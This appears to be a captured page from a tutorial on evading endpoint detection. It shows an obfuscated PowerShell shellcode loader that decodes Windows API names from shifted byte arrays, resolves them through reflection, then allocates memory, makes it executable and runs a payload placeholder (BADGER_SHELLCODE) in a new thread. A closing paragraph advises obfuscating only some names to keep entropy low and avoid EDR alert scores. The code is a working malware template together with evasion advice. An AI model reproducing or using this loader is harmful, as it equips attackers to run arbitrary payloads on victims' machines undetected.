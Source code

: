 ```powershell
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```

You may notice that some cmdlets and functions are kept in their original state… why is that? Depending on your  objectives, you may want to create an application that can still confuse reverse engineers after detection but may not look immediately  suspicious. If a malware developer were to obfuscate all cmdlets and  functions, it would raise the entropy in both interpreted and compiled languages resulting in higher EDR  alert scores. It could also lead to an interpreted snippet appearing  suspicious in logs if it is seemingly random or visibly heavily  obfuscated.
